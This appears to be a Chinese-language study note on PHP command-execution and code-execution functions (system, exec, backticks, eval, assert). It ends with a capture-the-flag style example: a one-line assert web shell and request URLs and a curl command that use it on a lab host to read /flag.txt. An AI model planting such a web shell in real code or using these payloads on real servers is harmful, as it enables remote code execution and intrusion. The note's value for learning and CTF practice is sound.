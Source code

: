 ### 命令执行函数
system()
```
说明：执行外部程序并显示输出资料。
语法：string system(string command, int [return_var]);
返回值: 字符串
```
exec函数
```
说明：执行外部程序。

语法：string exec(string command, string [array], int [return_var]);

返回值: 字符串
```
反撇号`（和~在同一个键）
```
执行系统外部命令,代码如下:echo `dir`;

知识点：在使用这种方法执行系统外部命令时，你要确保shell_exec函数可用，否则是无法使用这种反撇号执行系统外部命令的。
```



#### 代码执行

eval函数中参数是字符，如：
```
eval('echo 1;');
```
assert函数中参数为表达式 （或者为函数），如：
```
assert(phpinfo()) 
```
这样：`assert(eval('echo 1;'));`，无法执行。

如：
```
<?php assert($_GET[1]);?>

http://172.16.2.234:8011/3.php?1=system(%22cat%20/flag.txt%22)
http://172.16.2.234:8011/3.php?1=print_r(file_get_contents(%22/flag.txt%22))
```

```
<?php assert($_REQUEST[1]);?>

curl "http://172.16.2.234:8011/4.php" -d "1=system('cat /flag*')"
de9d4919ce86aeb38a5332c7d1c4d24a
```



